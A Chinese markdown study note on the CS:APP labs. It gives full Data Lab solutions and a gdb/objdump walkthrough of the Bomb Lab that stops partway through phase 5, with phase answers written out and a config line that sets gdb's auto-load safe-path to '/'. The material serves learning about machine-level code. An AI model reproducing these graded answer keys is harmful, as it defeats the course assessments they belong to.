# Lab

## 参考资料
* [lab 代码下载](https://csapp.cs.cmu.edu/3e/labs.html), [我的lab repo](https://github.com/lingyu11/CSAPP-Lab)
* [PKU ICS lab参考](https://github.com/zhuozhiyongde/Introduction-to-Computer-System-2023Fall-PKU), [我的PKU lab repo](https://github.com/lingyu11/Lab-CSAPP#)
* [arthals lab blog](https://arthals.ink/blog/data-lab)
* [dog-du lab blog](https://dog-du.github.io/posts/27869.html)
* 👍[kcxain lab blog](https://github.com/kcxain/CSAPP-Lab), [知乎合集](https://zhuanlan.zhihu.com/c_1480603406519238656)

## Data Lab

1. 开始

    ```bash
    # 解压
    tar -xvf datalab-handout.tar
    # 进入工作目录
    cd datalab-handout
    # 编译
    make

    # 编译并运行
    make && ./btest
    # 对某个函数进行单元测试
    make && ./btest -f bitXor
    # 对某个函数进行单元测试，且指定测试用例，以 -1 指定第一个参数，依次类推
    make && ./btest -f bitXor -1 7 -2 0xf

    # 检查是否符合编码规范
    ./dlc bits.c

    # 对某个函数进行单元测试
    ./bddcheck/check.pl -f bitXnor
    # 检查所有函数
    ./bddcheck/check.pl
    # 检查所有函数，且输出总结信息
    ./bddcheck/check.pl -g

    # 最后的评分：运行 driver.pl 脚本，检查所有函数的实现是否正确
    make && ./driver.pl
    ```

    [题目解析参考](https://zhuanlan.zhihu.com/p/614126795)

2. ### `bitXor` 

    异或操作：(~x & y) | (x & ~y)，即要么x为0且y为1，要么x为1且y为0，而题目要求只能使用 ~ 和 & 操作符，由布尔代数中的德摩根定律可知，a | b = ~ (~a & ~b)，所以可得：

    ```C
    int bitXor(int x, int y) 
    {
        return ~(~(~x & y) & ~(x & ~y));
    }
    ```

3. ### `tmin` 
    
    最小的负数：1 << 31，即 0x80000000

    ```C
    int tmin(void) 
    {
        return 1 << 31;
    }
    ```

4. ### `isTmax` 

    判断是否为最大的整数，即 0x7fffffff：

    ```C
    int isTmax(int x) 
    {
        return ((!((x + 1) ^ (~x))) & (!!(x + 1)));
    }
    ```

    若 x 是 0x7fffffff，那么 x + 1 就是最小的负数，即 0x80000000，而 ~x 也是 0x80000000，即<span style="color:blue;">对 Tmax 进行 +1 或取反操作，都会得到 Tmin</span>，因此 `!((x + 1) ^ (~x))`可以判断它是否是 Tmax。然而-1 即 0xffffffff也满足这个性质，因此需要排除它，通过 `!!(x + 1)` 来排除，两个!是为了用逻辑非来规整到0或者1。

5. ### `allOddBits` 

    判断是否所有奇数位都是1：最小满足条件就是 0xAAAAAAAA，然后判断 x & a == a 即可。注意文档要求常数不能超过8bits，所以不能直接用 0xAAAAAAAA 来判断，需要通过位操作来构造。

    ```C
    int allOddBits(int x) 
    {
        int a = 0xAA;
        a = a | (a << 8);
        a = a | (a << 16);
        return !((a & x) ^ a);
    }
    ```

6. ### `negate` 

    取反操作：~x + 1，即对 x 取反后加1，得到 -x。

    ```C
    int negate(int x)
    {
        return ~x + 1;
    }
    ```

7. ### `isAsciiDigit` 

    判断是否为0-9的ASCII码 (return 1 if 0x30 <= x <= 0x39)：观察到这个范围的数的高4位都是0x3，低4位都是0-9的数，所以可以先判断高4位是否为0x3，然后判断低4位是否为0-9的数。

    - 先判断高4位是否为0x3，即 (x >> 4) ^ 0x3 是否为0
    - 再判断低4位是否为0-9的数，0x9 + (~y + 1) 表示 0x9 - y，若其结果为正数（则表示 y 是0-9的数），那么最高位是0，右移31位得到最高位

    ```C
    int isAsciiDigit(int x) 
    {
        int y = x & 0xf; // 把最低4位先拿出来
        return !((x >> 4) ^ 0x3) & !((0x9 + (~y + 1)) >> 31);
    }
    ```

8. ### `conditional` 

    条件操作：x ? y : z 。

    - 设置一个变量`notZero`来判断x是否不为0，如果不为0，则该变量为1；否则为0。
    - 设置一个变量`flag`，当`notZero`为1时，该变量为`0xffffffff`；否则为`0x00000000`。

    ```C
    int conditional(int x, int y, int z) 
    {
        int notZero = !!x;
        int flag = ~notZero + 1;
        return (flag & y) | (~flag & z);
    }
    ```

9. ### `isLessOrEqual` 

    判断是否小于等于：x <= y 。

    * `!(x ^ y)`：检查x和y是否相等，如果相等则直接返回1
    * `(flag & flagx) | (~flag & less)`：根据符号是否相同进行不同的判断：
        - 当符号不同时（flag为全1）：检查x是否为负数（flagx为1），如果是则x < y
        - 当符号相同时（flag为全0）：使用前面计算的less值来判断x是否小于y

    ```C
    int isLessOrEqual(int x, int y) 
    {
        int flagx = (x >> 31 & 1);
        int flagy = (y >> 31 & 1);
        int notZero = !!(flagx ^ flagy);       // x,y符号不同则notZero为1，相同则notZero为0
        int flag = ~notZero + 1;               // 当notZero为1时，flag为0xffffffff，否则为0x00000000
        int less = ((x + (~y + 1)) >> 31 & 1); // x<y时，less为1，否则为0，但需要注意，当x和y符号不同时，直接计算可能导致溢出，所以需要判断符号不同的情况
        return (!(x ^ y)) | ((flag & flagx) | (~flag & less));
    }
    ```

10. ### `logicalNeg` 

    逻辑取反操作：!x 。

    * 当 x 为 0 时：0 | (~0 + 1) = 0 | 0 = 0，右移 31 位后得到 0，加1后得到 1
    * 当 x 不为 0 时：这会产生一个符号位为 1的数，右移 31 位后得到 0xFFFFFFFF，加1后得到 0

    ```C
    int logicalNeg(int x) 
    {
        return ((x | (~x + 1)) >> 31) + 1;
    }
    ```

11. ### `howManyBits` 

    计算需要多少位来表示一个整数：

    * 当x为正数时，假设idx表示为1的最高的位置，答案即idx + 1。
    * 当x为负数时，我们将x取反，假设idx表示此时为1的最高的位置，答案即idx + 1。
    * 使用二分查找法确定最高有效位的位置

    ```C
    int howManyBits(int x) 
    {
        int b16, b8, b4, b2, b1, b0;
        int sign = x >> 31;            // 如果x为负数，则sign为0xffffffff，否则为0
        x = (sign & ~x) | (~sign & x); // 如果x为负数，则取反，否则不变
        b16 = !!(x >> 16) << 4;        // 查高 16 位是否有 1，如果有则 b16 = 16，否则为 0
        x = x >> b16;
        b8 = !!(x >> 8) << 3;          // 查高 8 位是否有 1，如果有则 b8 = 8，否则为 0
        x = x >> b8;
        b4 = !!(x >> 4) << 2;          // 查高 4 位是否有 1，如果有则 b4 = 4，否则为 0
        x = x >> b4;
        b2 = !!(x >> 2) << 1;          // 查高 2 位是否有 1，如果有则 b2 = 2，否则为 0
        x = x >> b2;
        b1 = !!(x >> 1);               // 查高 1 位是否有 1，如果有则 b1 = 1，否则为 0
        x = x >> b1;
        b0 = x;                        // 查最低位是否有 1，如果有则 b0 = 1，否则为 0
        return b16 + b8 + b4 + b2 + b1 + b0 + 1;
    }
    ```

12. ### `floatScale2` 

    计算浮点数的2倍：float x = 2.0 * x。

    

    ```C
    unsigned floatScale2(unsigned uf) 
    {
        // 先分别取符号 s，尾数 frac，和阶码 exp
        unsigned s = (uf >> 31) & 0x1;
        unsigned exp = (uf >> 23) & 0xFF;
        unsigned frac = (uf & 0x7FFFFF);
        // NaN，根据题目要求，返回 uf
        if(exp == 0xFF) 
            return uf;
        // 非规格化数，此时 frac 就是尾码，直接 frac << 1 即可
        else if (exp == 0)
        {
            frac <<= 1;
            return (s << 31) | (exp << 23) | frac;
        }
        // else
        // 规格化数，此时exp != 0 && != 255, 直接将阶码 exp 加 1 即可
        exp++;
        return (s << 31) | (exp << 23) | frac;
    }
    ```

13. ### `floatFloat2Int` 

    计算浮点数的整数部分：int x = (int)uf。

    ```C
    int floatFloat2Int(unsigned uf) 
    {
        // 先分别取符号 s，尾数 frac，和阶码 exp
        unsigned s = (uf >> 31) & 0x1;
        unsigned exp = (uf >> 23) & 0xFF;
        unsigned frac = (uf & 0x7FFFFF);
        int E = exp - 127;
        frac = frac | (1 << 23); // 添加隐含的1到尾数的最高位
        // 非规格化数，此时，exp == 0，而 E = 1 - Bias = 1 - 127 = -126，表示浮点数的值在0到1之间。显然，return 0。
        if (E < 0)
        {
            return 0;
        } 
        // infinity，返回0x80000000
        else if (E >= 31) 
        {
            return 0x1 << 31;
        }
        else // 此时，exp!=0 && exp！=255。我们把 frac 作为基数进行修改，最后返回 frac
        {
            if (E < 23) // 浮点数的有效位部分超出了整数部分，需要右移去掉小数部分
            {
                frac >>= (23 - E);
            }
            else        // 浮点数的有效位需要左移来正确表示整数部分
            {
                frac <<= (E - 23);
            }
        }
        if (s)          // 如果是负数，计算补码
            return ~frac + 1;
        return frac;
    }
    ```

14. ### `floatPower2` 

    计算2.0^x：

    ```C
    unsigned floatPower2(int x) 
    {
        if (x < -149)
            return 0;
        else if (x < -126)
            return 1 << (x + 149);
        else if (x <= 127)
            return (x + 127) << 23;
        else
            return (0xFF) << 23;
    }
    ```

    最终结果：

    ```bash
    01-Data-Lab$ make && ./driver.pl
    ...
    Correctness Results     Perf Results
    Points  Rating  Errors  Points  Ops     Puzzle
    1       1       0       2       8       bitXor
    1       1       0       2       1       tmin
    1       1       0       2       8       isTmax
    2       2       0       2       7       allOddBits
    2       2       0       2       2       negate
    3       3       0       2       10      isAsciiDigit
    3       3       0       2       8       conditional
    3       3       0       2       21      isLessOrEqual
    4       4       0       2       5       logicalNeg
    4       4       0       2       36      howManyBits
    4       4       0       2       17      floatScale2
    4       4       0       2       18      floatFloat2Int
    4       4       0       2       10      floatPower2

    Score = 62/62 [36/36 Corr + 26/26 Perf] (151 total operators)
    ```

## Boom Lab

1. 阅读源码：

    源码在 `bomb.c` 中，这个程序的主要逻辑大概是：

    ```C
    int main(int argc, char *argv[])
    {
        // ...
        initialize_bomb();
        // ...
        input = read_line();
        phase_1(input);
        phase_defused();
        printf("Phase 1 defused. How about the next one?\n");
        // ...
        return 0;
    }
    ```

    可以看到，这个程序的每个阶段都是通过 `phase_x` 函数来实现的，而 `phase_x` 函数的参数是 `input`，也就是我们输入的字符串。所以，我们的目标就是找到每个阶段的 `input`，然后通过分析 `phase_x` 函数来找到正确的 `input`。

    首先让我们来反编译一下整个 `bomb` 这个二进制程序：

    ```bash
    objdump -d bomb > bomb.asm
    ```

    !!! note "x86-64寄存器传参"

        [x86-64 架构的寄存器](https://slide.huh.moe/02/7)：

        - 第一个参数：%rdi
        - 第二个参数：%rsi
        - 第三个参数：%rdx
        - 第四个参数：%rcx
        - 第五个参数：%r8
        - 第六个参数：%r9
        - 第七个参数及以上：栈传参
        - 被调用者保存：%rbx, %rbp, %rsp, %r12, %r13, %r14, %r15
        - 调用者保存：%rdi, %rsi, %rdx, %rcx, %rax, %r8, %r9, %r10, %r11
        - 保存返回值的寄存器：%rax
        - 栈指针：%rsp
        - 指令指针：%rip

2. ### Phase 1

    看到第一阶段的代码，如下：

    ```asm
    0000000000400ee0 <phase_1>:
    400ee0:	48 83 ec 08          	sub    $0x8,%rsp
    400ee4:	be 00 24 40 00       	mov    $0x402400,%esi
    400ee9:	e8 4a 04 00 00       	call   401338 <strings_not_equal>
    400eee:	85 c0                	test   %eax,%eax
    400ef0:	74 05                	je     400ef7 <phase_1+0x17>
    400ef2:	e8 43 05 00 00       	call   40143a <explode_bomb>
    400ef7:	48 83 c4 08          	add    $0x8,%rsp
    400efb:	c3                   	ret
    ```

    先来简单观察下这段程序在做什么，`call` 的两行就是调用 `strings_not_equal` 和 `explode_bomb` 这两个函数的，而这里 `%esi` 对应的是第二个参数，第一个参数呢？当然就是我们拆弹时需要输入的字符串了，存放在 `%edi`里，也就是 `phase_1(input)`里的 `input`。之后的 `test` 是用来判断函数的返回值 `%eax` 是否为 0， 如果为 0 则进行跳转，否则炸弹爆炸，所以我们实际上要做的，就是看看 `$0x402400` 这个地址里对应存放的是什么字符串，也就是拆炸弹的关键了。

    > `test %eax,%eax`：将 `%eax` 寄存器的值与其自身进行与运算，然后将结果存入 `%eax`。并且同时设置条件码（Condition Code），其中有一个叫做 `ZF` 的标志位，如果结果 `%eax` 的值为 0，则 `ZF` 为 1，否则为 0。随后的 `je` 判断条件为 `ZF = 1`，也就是说，如果 `ZF` 为 1（这对应我们调用 strings_not_equal 返回了一个零值，代表我们成功匹配），则跳转到 0x400ef7 的地方，否则 `call explode_bomb`，进而引爆炸弹。

    解答过程：先 `gdb bomb`，然后设置断点 `b explode_bomb` 和 `b phase_1`，接着运行 `r`，就会在断点处停下，这里会先让我们输入第一关的密码，随便输入一个抵达断点再说，这里输入 `abc`。我们断点后可以利用 `disas` 来看看对应的汇编代码，其实就和我们之前反汇编出来的一致，然后 `si` 两次直到 `mov $0x402400,%esi` 执行完毕，再使用 `x/s $edi` 可以得到我们刚才输入的字符串 `abc`，再使用 `x/s $esi` 得到答案：`Border relations with Canada have never been better.`

    ```bash
    Linux$ gdb bomb
    (gdb) b explode_bomb
    Breakpoint 1 at 0x40143a
    (gdb) b phase_1
    Breakpoint 2 at 0x400ee0
    (gdb) r
    Welcome to my fiendish little bomb. You have 6 phases with
    which to blow yourself up. Have a nice day!
    abc

    Breakpoint 2, 0x0000000000400ee0 in phase_1 ()
    (gdb) disas
    Dump of assembler code for function phase_1:
    => 0x0000000000400ee0 <+0>:     sub    $0x8,%rsp
    0x0000000000400ee4 <+4>:     mov    $0x402400,%esi
    0x0000000000400ee9 <+9>:     call   0x401338 <strings_not_equal>
    0x0000000000400eee <+14>:    test   %eax,%eax
    0x0000000000400ef0 <+16>:    je     0x400ef7 <phase_1+23>
    0x0000000000400ef2 <+18>:    call   0x40143a <explode_bomb>
    0x0000000000400ef7 <+23>:    add    $0x8,%rsp
    0x0000000000400efb <+27>:    ret
    End of assembler dump.
    (gdb) si
    0x0000000000400ee4 in phase_1 ()
    (gdb) si
    0x0000000000400ee9 in phase_1 ()
    (gdb) disas
    Dump of assembler code for function phase_1:
    0x0000000000400ee0 <+0>:     sub    $0x8,%rsp
    0x0000000000400ee4 <+4>:     mov    $0x402400,%esi
    => 0x0000000000400ee9 <+9>:     call   0x401338 <strings_not_equal>
    0x0000000000400eee <+14>:    test   %eax,%eax
    0x0000000000400ef0 <+16>:    je     0x400ef7 <phase_1+23>
    0x0000000000400ef2 <+18>:    call   0x40143a <explode_bomb>
    0x0000000000400ef7 <+23>:    add    $0x8,%rsp
    0x0000000000400efb <+27>:    ret
    End of assembler dump.
    (gdb) x/s $edi
    0x603780 <input_strings>:       "abc"
    (gdb) x/s $esi
    0x402400:       "Border relations with Canada have never been better."
    (gdb) 
    ```

    为了不用每次都重复打断点，`gdb` 有一个很实用的功能，就是我们可以使用 `.gdbinit` 文件来设置 `gdb` 进入时的一些默认配置，这样我们就不用每次都手动输入一大堆的指令。为了实现此功能，我们首先进行如下配置：

    ```bash
    # 创建当前目录下的 .gdbinit 文件
    touch .gdbinit
    # 创建 .config/gdb 文件夹
    mkdir -p ~/.config/gdb
    # 允许 gdb 预加载根目录下所有的文件
    echo "set auto-load safe-path /" > ~/.config/gdb/gdbinit
    ```

    然后，我们打开工作目录的 `.gdbinit` 文件，输入如下内容：

    ```bash
    # ./gdbinit
    # 设置默认文件输入，这样我们不必每次手动输入答案
    set args sol.txt

    # 为各个 phase 函数设置断点，用以观察其执行过程
    # 如果做完了某个 phase，可以将其注释掉，这样就不会再进入该 phase 了
    set pag off
    b explode_bomb
    b phase_1
    b phase_2
    b phase_3
    b phase_4
    b phase_5
    b phase_6

    r
    ```

    此时 sol.txt 里的内容如下：(注意结尾要有换行)

    ```
    Border relations with Canada have never been better.

    ```

    此外，不用 `disas` 了话也可以用 `layout asm` 来开启视图，方便分析。关闭 layout 的方式为，按下 `Ctrl + x`，然后再按下 `a`。

3. ### Phase 2

    这一次在 `phase_2` 的地方输入 `abcd`：

    ```bash
    Linux$ gdb bomb
    Welcome to my fiendish little bomb. You have 6 phases with
    which to blow yourself up. Have a nice day!
    Phase 1 defused. How about the next one?
    abcd

    Breakpoint 2, 0x0000000000400efc in phase_2 ()
    (gdb) disas
    Dump of assembler code for function phase_2:
    => 0x0000000000400efc <+0>:     push   %rbp     # 保存调用者的%rbp寄存器
    0x0000000000400efd <+1>:     push   %rbx        # 保存调用者的%rbx寄存器
    0x0000000000400efe <+2>:     sub    $0x28,%rsp  # 在栈上分配40字节空间
    0x0000000000400f02 <+6>:     mov    %rsp,%rsi   # 把当前栈顶地址传给 read_six_numbers 函数，用于存储输入的6个整数, 有可能的形式是void read_six_numbers(int file_descriptor, int* buffer)
    0x0000000000400f05 <+9>:     call   0x40145c <read_six_numbers> # 把六个 32 位整数写入从 %rsp 开始的内存
    0x0000000000400f0a <+14>:    cmpl   $0x1,(%rsp) # 检查第一个数字是否为1
    0x0000000000400f0e <+18>:    je     0x400f30 <phase_2+52>   # 如果是1，跳转到设置循环的代码
    0x0000000000400f10 <+20>:    call   0x40143a <explode_bomb> # 否则引爆炸弹
    0x0000000000400f15 <+25>:    jmp    0x400f30 <phase_2+52>   #（永远不会执行到这里） 
    0x0000000000400f17 <+27>:    mov    -0x4(%rbx),%eax         # === 循环体验证后续数字 ===, eax = 当前数字的前一个数字
    0x0000000000400f1a <+30>:    add    %eax,%eax               # eax *= 2
    0x0000000000400f1c <+32>:    cmp    %eax,(%rbx)             # 比较当前数字与前一个数字的2倍
    0x0000000000400f1e <+34>:    je     0x400f25 <phase_2+41>   # 如果相等，继续检查
    0x0000000000400f20 <+36>:    call   0x40143a <explode_bomb> # 否则引爆炸弹
    0x0000000000400f25 <+41>:    add    $0x4,%rbx               # rbx指向下一个数字
    0x0000000000400f29 <+45>:    cmp    %rbp,%rbx               # 检查是否遍历完所有6个数字
    0x0000000000400f2c <+48>:    jne    0x400f17 <phase_2+27>   # 如果没遍历完，继续循环
    0x0000000000400f2e <+50>:    jmp    0x400f3c <phase_2+64>   # 跳转到函数收尾部分
    0x0000000000400f30 <+52>:    lea    0x4(%rsp),%rbx        # === 设置循环参数 ===, rbx指向第二个数字
    0x0000000000400f35 <+57>:    lea    0x18(%rsp),%rbp       # rbp指向栈上第7个位置（循环结束条件）
    0x0000000000400f3a <+62>:    jmp    0x400f17 <phase_2+27> # 跳转到循环体
    0x0000000000400f3c <+64>:    add    $0x28,%rsp  # === 函数返回===, 释放栈空间
    0x0000000000400f40 <+68>:    pop    %rbx        # 恢复rbx寄存器
    0x0000000000400f41 <+69>:    pop    %rbp        # 恢复rbp寄存器
    0x0000000000400f42 <+70>:    ret                # 返回调用者
    End of assembler dump.
    (gdb) 
    ```

    从函数名可以得知，这一次要读入六个数字 `read_six_numbers`。从 `cmpl $0x1,(%rsp)` 看出第一个数字一定是 1，然后跳转到 +52 的位置，具体看上述注释。根据分析，这个 `phase_2` 函数要求用户输入6个整数，满足以下条件：

    - 第一个数字必须是1
    - 后续每个数字必须是前一个数字的2倍

    因此，正确的输入序列应该是：1 2 4 8 16 32。

    { width="200" }

4. ### Phase 3

    ```bash
    Breakpoint 2, 0x0000000000400f43 in phase_3 ()
    (gdb) disas
    Dump of assembler code for function phase_3:
    => 0x0000000000400f43 <+0>:     sub    $0x18,%rsp  # 分配24字节的栈空间，用于存储局部变量
    0x0000000000400f47 <+4>:     lea    0xc(%rsp),%rcx # 第二个参数地址
    0x0000000000400f4c <+9>:     lea    0x8(%rsp),%rdx # 第一个参数地址
    0x0000000000400f51 <+14>:    mov    $0x4025cf,%esi # 格式字符串地址, 即"%d %d"
    0x0000000000400f56 <+19>:    mov    $0x0,%eax
    0x0000000000400f5b <+24>:    call   0x400bf0 <__isoc99_sscanf@plt> # 调用sscanf函数解析用户输入，将结果存入栈中指定位置
    0x0000000000400f60 <+29>:    cmp    $0x1,%eax # 验证sscanf是否成功解析了至少一个整数，否则触发爆炸
    0x0000000000400f63 <+32>:    jg     0x400f6a <phase_3+39>
    0x0000000000400f65 <+34>:    call   0x40143a <explode_bomb>
    0x0000000000400f6a <+39>:    cmpl   $0x7,0x8(%rsp)         # == 第一个输入值范围检查 ==, 检查第一个输入值是否<=7
    0x0000000000400f6f <+44>:    ja     0x400fad <phase_3+106> # 大于7则爆炸
    0x0000000000400f71 <+46>:    mov    0x8(%rsp),%eax         # 加载第一个输入值
    0x0000000000400f75 <+50>:    jmp    *0x402470(,%rax,8)     # 根据输入值进行跳转表查找，常见于switch-case语句的汇编实现
    0x0000000000400f7c <+57>:    mov    $0xcf,%eax             # 每个分支都设置一个特定的整数值到eax寄存器
    0x0000000000400f81 <+62>:    jmp    0x400fbe <phase_3+123>
    0x0000000000400f83 <+64>:    mov    $0x2c3,%eax
    0x0000000000400f88 <+69>:    jmp    0x400fbe <phase_3+123>
    0x0000000000400f8a <+71>:    mov    $0x100,%eax
    0x0000000000400f8f <+76>:    jmp    0x400fbe <phase_3+123>
    0x0000000000400f91 <+78>:    mov    $0x185,%eax
    0x0000000000400f96 <+83>:    jmp    0x400fbe <phase_3+123>
    0x0000000000400f98 <+85>:    mov    $0xce,%eax
    0x0000000000400f9d <+90>:    jmp    0x400fbe <phase_3+123>
    0x0000000000400f9f <+92>:    mov    $0x2aa,%eax
    0x0000000000400fa4 <+97>:    jmp    0x400fbe <phase_3+123>
    0x0000000000400fa6 <+99>:    mov    $0x147,%eax
    0x0000000000400fab <+104>:   jmp    0x400fbe <phase_3+123>
    0x0000000000400fad <+106>:   call   0x40143a <explode_bomb>
    0x0000000000400fb2 <+111>:   mov    $0x0,%eax
    0x0000000000400fb7 <+116>:   jmp    0x400fbe <phase_3+123>
    0x0000000000400fb9 <+118>:   mov    $0x137,%eax
    0x0000000000400fbe <+123>:   cmp    0xc(%rsp),%eax          # 比较用户输入的第二个整数是否等于根据第一个输入值确定的预期值
    0x0000000000400fc2 <+127>:   je     0x400fc9 <phase_3+134>  # 相等则通过
    0x0000000000400fc4 <+129>:   call   0x40143a <explode_bomb>
    0x0000000000400fc9 <+134>:   add    $0x18,%rsp # 恢复栈指针
    0x0000000000400fcd <+138>:   ret               # 返回
    End of assembler dump.
    ```

    由此可知这一关需要输入两个数字：

    ```bash
    (gdb) x/s 0x4025cf
    0x4025cf:       "%d %d"
    ```

    `int sscanf(const char *str, const char *format, ...);`用于从字符串中读取格式化的数据。它的名字来源于"string scanf"，是`scanf`函数的字符串版本。

    ```C
    #include <stdio.h>

    int main() 
    {
        const char *str = "123 456";
        int a, b;
        int count = sscanf(str, "%d %d", &a, &b);
        printf("成功读取 %d 个参数: a=%d, b=%d\n", count, a, b);
        // 输出: 成功读取 2 个参数: a=123, b=456
        return 0;
    }
    ```

    `jmp *0x402470(,%rax,8)` 指令解释: 这条指令是间接跳转指令，在汇编中用于实现 跳转表(jump table) 结构，常见于switch-case语句的汇编实现，计算目标地址 = 0x402470 + (%rax × 8) 然后跳转到该地址指向的内存位置继续执行，其中8是每个跳转表项的大小（在64位系统中，地址占8字节）。请注意，`mov $0xcf,%eax`等指令是在跳转表的各个分支中的，当程序执行到`jmp    *0x402470(,%rax,8)`时，可以查看：

    ```bash
    (gdb) x 0x402470
    0x402470:       0x00400f7c
    (gdb) si
    (gdb) si
    (gdb) p $eax
    $1 = 207
    ```

    `phase_3` 函数要求用户输入两个整数，其中：

    - 第一个整数必须是0-7之间的整数
    - 第二个整数必须与根据第一个整数通过跳转表确定的特定值相等

    要通过此阶段，用户需要找到与第一个输入值(0-7)对应的正确第二个值。例如：

    - 当第一个数为0时，第二个数应为207(0xcf)
    - 当第一个数为1时，第二个数应为707(0x2c3)
    - 以此类推...
    
    这些对应关系由跳转表中的各个分支决定，因此，正确的输入序列可以是：0 207。

5. ### Phase 4

    ```bash
    (gdb) disas
    Dump of assembler code for function phase_4:
    => 0x000000000040100c <+0>:     sub    $0x18,%rsp   # 分配24字节栈空间
    0x0000000000401010 <+4>:     lea    0xc(%rsp),%rcx  # 第二个输入参数的地址
    0x0000000000401015 <+9>:     lea    0x8(%rsp),%rdx  # 第一个输入参数的地址
    0x000000000040101a <+14>:    mov    $0x4025cf,%esi  # 格式化字符串地址
    0x000000000040101f <+19>:    mov    $0x0,%eax       # 初始化返回值为0
    0x0000000000401024 <+24>:    call   0x400bf0 <__isoc99_sscanf@plt> # 使用sscanf函数从用户输入中解析两个整数，分别存储在栈上的0x8(%rsp)和0xc(%rsp)位置
    0x0000000000401029 <+29>:    cmp    $0x2,%eax               # 检查是否成功解析了2个整数
    0x000000000040102c <+32>:    jne    0x401035 <phase_4+41>   # 解析失败则跳转
    0x000000000040102e <+34>:    cmpl   $0xe,0x8(%rsp)          # 检查第一个输入是否≤14(0xe)
    0x0000000000401033 <+39>:    jbe    0x40103a <phase_4+46>   # 输入有效则跳转
    0x0000000000401035 <+41>:    call   0x40143a <explode_bomb> # 验证失败引爆炸弹
    0x000000000040103a <+46>:    mov    $0xe,%edx       # 设置func4的第3个参数为14
    0x000000000040103f <+51>:    mov    $0x0,%esi       # 设置func4的第2个参数为0
    0x0000000000401044 <+56>:    mov    0x8(%rsp),%edi  # 设置func4的第1个参数为用户第一个输入
    0x0000000000401048 <+60>:    call   0x400fce <func4>
    0x000000000040104d <+65>:    test   %eax,%eax             # 检查func4返回值是否为0
    0x000000000040104f <+67>:    jne    0x401058 <phase_4+76> # 不为0则引爆炸弹
    0x0000000000401051 <+69>:    cmpl   $0x0,0xc(%rsp)        # 检查用户第二个输入是否为0
    0x0000000000401056 <+74>:    je     0x40105d <phase_4+81> # 为0则跳转
    0x0000000000401058 <+76>:    call   0x40143a <explode_bomb> # 验证失败引爆炸弹
    0x000000000040105d <+81>:    add    $0x18,%rsp # 恢复栈指针
    0x0000000000401061 <+85>:    ret               # 返回
    End of assembler dump.
    ```

    因此，`phase_4`函数的核心功能是，接收用户输入的两个整数：

    - 验证第一个整数的范围（必须在0-14之间），调用`func4`函数进行进一步计算，并验证其返回值必须为0
    - 验证第二个整数必须为0

    `func4`的汇编代码是：

    ```bash
    0000000000400fce <func4>:       # func4(int a, int b, int c)，其中 a 是用户输入，b 是第0，c 是14参数
    400fce:	48 83 ec 08          	sub    $0x8,%rsp  # 分配8字节栈空间
    400fd2:	89 d0                	mov    %edx,%eax  # eax = c
    400fd4:	29 f0                	sub    %esi,%eax  # eax = c - b
    400fd6:	89 c1                	mov    %eax,%ecx  # ecx = c - b
    400fd8:	c1 e9 1f             	shr    $0x1f,%ecx # ecx = (c - b) >> 31，算术右移31位，提取符号位，正数得到 0x00000000，负数得到 0xffffffff
    400fdb:	01 c8                	add    %ecx,%eax  # 加上符号位（处理负数情况）
    400fdd:	d1 f8                	sar    $1,%eax    # 算术右移1位，相当于除以2并向下取整
    400fdf:	8d 0c 30             	lea    (%rax,%rsi,1),%ecx  # ecx = b + (c - b) / 2（中点值）
    400fe2:	39 f9                	cmp    %edi,%ecx           # 比较输入值与中点值
    400fe4:	7e 0c                	jle    400ff2 <func4+0x24> # 如果输入值<=中点值，跳转 <0x400ff2>
    400fe6:	8d 51 ff             	lea    -0x1(%rcx),%edx  # == 输入值 > 中点值的情况 ==, 设置新的c = 中点值-1
    400fe9:	e8 e0 ff ff ff       	call   400fce <func4>      # 递归调用func4
    400fee:	01 c0                	add    %eax,%eax           # 返回值 = 2 * 递归结果
    400ff0:	eb 15                	jmp    401007 <func4+0x39> # 跳转到函数返回部分 <0x401007>
    400ff2:	b8 00 00 00 00       	mov    $0x0,%eax           # == 输入值 <= 中点值的情况 ==，先设置返回值为0
    400ff7:	39 f9                	cmp    %edi,%ecx           # 再次比较输入值与中点值
    400ff9:	7d 0c                	jge    401007 <func4+0x39> # 如果输入值>=中点值，跳转到返回 <0x401007>
    400ffb:	8d 71 01             	lea    0x1(%rcx),%esi      # 设置新的b = 中点值+1
    400ffe:	e8 cb ff ff ff       	call   400fce <func4>      # 递归调用func4
    401003:	8d 44 00 01          	lea    0x1(%rax,%rax,1),%eax # 返回值 = 2 * 递归结果 + 1
    401007:	48 83 c4 08          	add    $0x8,%rsp
    40100b:	c3                   	ret
    ```

    通过分析可以看出，`func4` 实现了一个基于二分查找的递归函数，其目标是找到一个特定的整数值：

    ```C
    int func4(int x, int low, int high) 
    {
        int mid = low + (high - low) / 2;
        
        if (x > mid) 
        {
            // 输入值大于中点，递归搜索右半区间
            return 2 * func4(x, low, mid - 1);
        } 
        else 
        {
            int result = 0;
            if (x < mid) 
            {
                // 输入值小于中点，递归搜索左半区间
                result = 2 * func4(x, mid + 1, high) + 1;
            }
            // 如果x等于mid，返回0
            return result;
        }
    }
    ```

    因此，`phase_4` 函数要求用户输入两个整数：`7 0`

6. ### Phase 5

    ```bash
    (gdb) disas
    Dump of assembler code for function phase_5:
    => 0x0000000000401062 <+0>:     push   %rbx       # 保存调用者的 rbx 寄存器
    0x0000000000401063 <+1>:     sub    $0x20,%rsp    # 分配 32 字节的栈空间
    0x0000000000401067 <+5>:     mov    %rdi,%rbx     # 保存输入的字符串指针到 rbx
    0x000000000040106a <+8>:     mov    %fs:0x28,%rax   # 栈保护机制, 从 %fs 段寄存器偏移 0x28 的内存位置读取一个值到 %rax 寄存器
    0x0000000000401073 <+17>:    mov    %rax,0x18(%rsp) # 存储栈金丝雀值
    0x0000000000401078 <+22>:    xor    %eax,%eax     # 清零 eax
    0x000000000040107a <+24>:    call   0x40131b <string_length> # 调用函数计算字符串长度
    0x000000000040107f <+29>:    cmp    $0x6,%eax                # 比较长度是否为6
    0x0000000000401082 <+32>:    je     0x4010d2 <phase_5+112>   # 长度为6则跳转到处理部分
    0x0000000000401084 <+34>:    call   0x40143a <explode_bomb>  # 长度不符，引爆炸弹
    0x0000000000401089 <+39>:    jmp    0x4010d2 <phase_5+112>
    0x000000000040108b <+41>:    movzbl (%rbx,%rax,1),%ecx  # 读取第 eax 个字符到 ecx (将一个8位的字节数据，通过零扩展的方式扩展为32位数据，然后传送到目标寄存器)
    0x000000000040108f <+45>:    mov    %cl,(%rsp)          # 将字符存入栈中
    0x0000000000401092 <+48>:    mov    (%rsp),%rdx         # 读取该字符到 rdx
